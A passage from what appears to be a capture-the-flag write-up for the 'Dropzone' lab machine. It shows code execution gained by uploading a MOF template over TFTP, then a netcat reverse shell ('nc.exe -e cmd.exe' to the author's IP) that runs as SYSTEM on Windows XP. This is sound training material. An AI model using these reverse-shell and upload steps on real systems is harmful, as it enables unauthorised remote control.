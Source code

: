 #### ping

as a first test, I will try to get the machine to ping my workstation. I’ll
put `ping.exe 10.10.14.3` in the place of `@EXE@` in the template, and save it
as `ping.mof`. Next, upload it via tftp, and watch the pings return with
tcpdump in the lower tmux window:

![ping](https://0xdfimages.gitlab.io/img/dropzone-ping.gif)

#### Shell

Now that I’ve proven code execution, I’ll try to get a shell with `nc`. First,
upload nc.exe to `system32` (make sure to switch to binary mode first, or the
uploaded exe will be corrupt). Since that will be in the path, I don’t have to
worry about giving a full path in the template (if I wanted to do full path, I
could double escape, so `\\\\windows\\\\system32\\\\nc.exe`). Then I update
the template with `nc.exe -e cmd.exe 10.10.14.3 443`.

Upload, and shell:

![shell](https://0xdfimages.gitlab.io/img/dropzone-shell.gif)

Windows XP actually doesn’t have `whoami`, but I can check the environment
variables to get a good idea that I’m running as SYSTEM (see two comments
added by me):

    
    
    C:\WINDOWS\system32>set
    ALLUSERSPROFILE=C:\Documents and Settings\All Users
    CommonProgramFiles=C:\Program Files\Common Files
    COMPUTERNAME=DROPZONE
    ComSpec=C:\WINDOWS\system32\cmd.exe
    FP_NO_HOST_CHECK=NO
    NUMBER_OF_PROCESSORS=1
    OS=Windows_NT
    Path=C:\WINDOWS\system32;C:\WINDOWS;C:\WINDOWS\System32\Wbem
    PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH
    PROCESSOR_ARCHITECTURE=x86
    PROCESSOR_IDENTIFIER=x86 Family 6 Model 63 Stepping 2, GenuineIntel
    PROCESSOR_LEVEL=6
    PROCESSOR_REVISION=3f02
    ProgramFiles=C:\Program Files
    PROMPT=$P$G
    SystemDrive=C:
    SystemRoot=C:\WINDOWS
    TEMP=C:\WINDOWS\TEMP                                    <-- TEMP is not in %USERPROFILE%\Local Settings\
    TMP=C:\WINDOWS\TEMP
    USERPROFILE=C:\WINDOWS\system32\config\systemprofile    <-- USERPROFILE in system32, not \Documents and Settings\{username}
    windir=C:\WINDOWS
    

